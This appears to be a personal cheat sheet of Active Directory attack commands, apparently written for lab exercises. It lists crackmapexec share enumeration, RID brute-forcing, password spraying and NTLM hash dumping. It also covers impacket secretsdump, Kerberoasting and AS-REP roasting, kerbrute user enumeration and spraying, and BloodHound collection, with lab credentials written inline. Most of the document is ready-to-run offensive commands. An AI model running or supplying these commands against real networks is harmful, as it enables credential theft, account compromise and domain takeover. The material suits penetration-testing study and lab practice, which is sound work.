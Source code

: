 
# AD_commands



### `crackmapexec`

enumerate the `smb` shares
```
crackmapexec smb 10.10.113.103 -u 'anonymous' -p '' --shares
```
enumerate the users
```bash
crackmapexec smb thm.corp -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
spraying passwords among users
```bash
crackmapexec smb <target-ip> -u users.txt -p passwords.txt --spray
```
dump `NTLM` hashes
```bash
crackmapexec smb 192.168.1.0/24 -u admin -p password123 --ntlm > hash
```
List all users in a domain
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --users > users
```
List all groups
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --groups > groups
```

---

### `impacket`

### **Authentication & Password Dumping**

`secretsdump` : Extracts credentials, including `NTLM` hashes, from Windows systems via various techniques.
```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.217.111
```

Get `SPNs` : Service Principal Names `(SPNs)` that can be used for `Kerberos` authentication attacks `(Kerberoasting)`.
```bash
impacket-GetUserSPNs -request lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

`lookupsid`
This tool queries a remote machine for information about SIDs. It can enumerate domain user and group information by querying the `Security Account Manager` (SAM) database over the `SMB` protocol.
```bash
impacket-lookupsid anonymous@10.10.12.26 -no-pass -domain-sids
```

`GetNPUsers` : `ASREP` Roasting.

When you use the **`GetNPUsers.py`** tool from `Impacket` to dump users with the **"Do not require `Kerberos preauthentication`** option enabled, the output typically provides the following:
1. **Usernames**: A list of usernames that have the `preauthentication` requirement disabled.
2. **`Kerberos AS-REQ` Hashes**: If the user has `preauthentication` disabled, the tool retrieves the `Kerberos AS-REQ` hash (Ticket Granting Ticket Request). This hash can be cracked offline to retrieve the user's `plaintext` password using tools like **`hashcat`**.

get a specific format of specific `IP` of specific domain
```bash
impacket-GetNPUsers -request -format john  lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

just the domain
```bash
impacket-GetNPUsers thm.corp/TABATHA_BRITT
```

from users list
```bash
impacket-GetNPUsers the.corp/ -dc-ip 10.10.42.254 -usersfile users -format john -outputfile hash -no-pass -request
```

---

### `kerbrute`

This command attempts to enumerate valid usernames from a provided list.

userenum
```bash
kerbrute userenum -d the.corp -dc 10.10.42.254 users
```

`passwordspray`

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -U admin passwords
```
- -d the.corp : Specifies the domain name. 
- -dc 10.10.42.254 : The IP address of the Domain Controller. 
- -U admin : The username to brute-force. passwords.txt : The file containing the list of passwords to try

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -P "Password123" users
```

---

### bloodhound
#### Neo4j
```bash
sudo neo4j console
```

#### bloodhound
```bash
sudo bloodhound --no-sandbox
```
#### bloodhound-python
```bash
bloodhound-python -ns 10.10.149.218 --dns-tcp -d THM.CORP -u 'automate' -p 'Passw0rd1' -c All --zip
```


---


